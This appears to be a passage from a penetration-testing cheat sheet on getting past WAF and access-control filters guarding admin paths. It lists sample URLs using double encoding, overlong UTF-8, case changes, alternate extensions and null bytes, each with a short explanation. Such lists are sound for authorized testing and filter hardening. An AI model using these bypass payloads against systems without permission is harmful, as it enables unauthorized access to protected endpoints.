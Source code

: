 ## Double/Triple Encodings

``
url.com/admin/%252f   (Decodes to %2f -> '/')
url.com/admin%25253F  (Double-encoded '?')
``

##Unicode/Overlong UTF-8
```
url.com/%u0061dmin    (Unicode for 'admin')
url.com/%c0%afadmin   (Overlong UTF-8 for '/')
url.com/admin%e5%98%8a%e5%98%8d  (Obscure Unicode)
```

## Why it Works

WAFs and access controls often have a single decode step. If you double- or triple-encode, you may bypass that first filter.



# 6. Case Variations & Typos
On Windows-based servers or other case-insensitive file systems, changing the case might help. Some apps do strict checks expecting admin in lowercase:

```
url.com/ADMIN
url.com/ADMIN/
url.com/ADM+IN
url.com/AdMiN
```
## Why it Works

The server (or an app route) might treat paths case-insensitively, while a WAF or rewrite rule is case-sensitive.


# 7. File Extension & Null Byte Tricks
Appending or removing file extensions might bypass extension-based filters.

``
url.com/admin.json
url.com/admin.css
url.com/admin.html
url.com/admin.php~
url.com/admin.old
url.com/admin.bak
url.com/admin.inc
url.com/admin.~
url.com/admin%00
``
## Why it Works

Some servers only block .php or .asp but forget to block .json or .bak. A null byte (%00) can truncate path checks on older or poorly written code.


(to-add: headers + methods)
